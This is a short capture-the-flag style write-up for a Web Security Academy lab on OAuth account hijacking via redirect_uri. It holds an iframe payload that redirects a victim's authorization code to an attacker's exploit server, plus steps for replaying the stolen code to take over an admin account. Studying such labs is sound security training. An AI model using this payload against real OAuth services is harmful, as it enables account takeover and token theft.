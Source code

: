 # OAuth account hijacking via redirect_uri

## Exploit Server
```html
<iframe src="https://oauth-ac9e1f0c1fe83ea4c0a70c8f024d00f8.web-security-academy.net/auth?client_id=ydk8wsd7pqjc6boa4g8ue&redirect_uri= https://exploit-aced1fa71f813ecec0300c1c017300ae.web-security-academy.net/&response_type=code&scope=openid%20profile%20email"></iframe>
```

## Auth FLow
![image](https://user-images.githubusercontent.com/60841283/150680077-ce46a78a-8abf-4bf3-9886-d410174a7dd3.png)

Redirect to Exploit via server

Store --> View Exploit --> Access Logs

![image](https://user-images.githubusercontent.com/60841283/150680163-7a019ad2-9d6f-4115-888f-4f0f39bd7a00.png)

Copy the code and logout from blog website.
Visit --> 
`https://ac971f5c1ff13e4bc00e0c8000a90096.web-security-academy.net/oauth-callback?code=1jnxTwxKscdCXjTs5xKCNXy9MZJIZKo60PcULWE0LcQ`

![image](https://user-images.githubusercontent.com/60841283/150680284-b26b9533-2883-4dbd-97b5-0710f0dd4759.png)

Deliver exploit to victim

![image](https://user-images.githubusercontent.com/60841283/150680340-1489d930-d0f2-4faf-9eb4-4e8d9fcbdd76.png)

Admin Panel
`https://ac971f5c1ff13e4bc00e0c8000a90096.web-security-academy.net/oauth-callback?code=qCmShidBoduqOWzcLOmnJ2VwXd9Hl327TYg227v5Fdv`

![image](https://user-images.githubusercontent.com/60841283/150680399-eac543ea-1503-47ce-9aa3-e89a5ff65c40.png)

![image](https://user-images.githubusercontent.com/60841283/150680411-a9888e2a-70f9-4faa-8e66-0d9d4ab1f7e4.png)
